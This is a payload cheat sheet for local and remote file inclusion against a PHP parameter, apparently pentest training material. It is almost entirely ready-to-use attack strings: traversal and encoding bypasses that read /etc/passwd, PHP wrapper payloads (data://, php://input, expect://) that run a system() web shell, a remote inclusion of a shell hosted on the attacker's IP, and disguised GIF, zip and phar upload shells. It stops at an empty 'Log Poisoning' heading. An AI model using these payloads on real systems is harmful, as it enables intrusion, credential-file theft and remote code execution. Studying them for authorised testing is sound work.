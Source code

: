 ## LFI Bypasses

| Payload | Description |
|---------|-------------|
| `/index.php?language=....//....//....//....//etc/passwd` | Bypass basic path traversal filter |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with null byte (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter |

## Remote Code Execution

### PHP Wrappers

| Payload | Description |
|---------|-------------|
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE with data wrapper |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"` | RCE with expect wrapper |

### RFI

| Payload | Description |
|---------|-------------|
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` | Include remote PHP web shell |

### LFI + Upload

| Payload | Description |
|---------|-------------|
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image |
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg' |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar |

### Log Poisoning
